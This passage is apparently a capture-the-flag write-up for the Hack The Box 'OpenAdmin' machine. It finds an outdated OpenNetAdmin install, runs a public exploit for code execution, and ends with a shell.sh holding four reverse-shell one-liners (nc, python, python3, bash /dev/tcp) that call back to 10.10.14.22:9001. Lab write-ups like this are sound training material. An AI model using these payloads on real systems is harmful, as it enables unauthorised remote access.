 Most of the links on the page do not go anywhere, but login does.

## Checking the login button 
![image](/assets/images/htb-boxes/openadmin/Pasted image 20210704181300.png)
- We are brought to /ona/.
- This is an outdated version of netopenadmin.
- And we can see a DNS Domain record.

Clicking on that record, a popup opened which gave us a hostname. So let us add this to our hosts file.
![image](/assets/images/htb-boxes/openadmin/Pasted image 20210704181448.png)


## Checking for publicly available exploit
Since the version of the OpenNetAdmin is the outdated one, let us check on searchsploit if there are any publicly available exploits.
![image](/assets/images/htb-boxes/openadmin/Pasted image 20210704181716.png)
We have two unique exploits, one for version 13 and one for 18. But we dont know what version we are running.

## Checking one of the exploit
![image](/assets/images/htb-boxes/openadmin/Pasted image 20210704181829.png)
This date on the exploit is 2019-11-19, which means this is a recent exploit. So let us try this exploit even if we dont know the version of the OpenNetAdmin running on the machine.

## Running the exploit
![image](/assets/images/htb-boxes/openadmin/Pasted image 20210704182206.png)
We get code execution right away.

## Getting a reverse shell
I like to host a file on my box with bunch of reverse shell payload, download it from the remote box and execute it.

## Content of the shell.sh
```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 9001 >/tmp/f

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.22",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.22",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

bash -i >& /dev/tcp/10.10.14.22/9001 0>&1
```
